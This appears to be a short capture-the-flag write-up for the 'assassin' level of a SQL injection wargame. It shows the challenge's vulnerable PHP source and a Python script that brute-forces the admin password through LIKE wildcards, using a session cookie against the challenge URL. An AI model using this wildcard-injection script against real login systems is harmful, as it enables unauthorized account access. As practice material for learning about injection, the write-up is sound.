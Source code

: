 
#  ASSASSIN
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
Using %__ to check the password matching to n th character in this case searching for 3 character is 2.

```
import requests
import string
char = string.digits + string.ascii_letters
session = {"PHPSESSID": "543hSou81c4g7dfv96aojdiaa"}
for i in char:
    param = {'pw':f'%__{i}'}
    req = requests.get("https://los.rubiya.kr/chall/assassin_14a11d552c61c601034879e5d4171373.php", params=param, cookies=session)
    if "Hello admin" in req.text:
        print("found", i)
        break
```
***
### query : select id from prob_assassin where pw like '__2%'
***
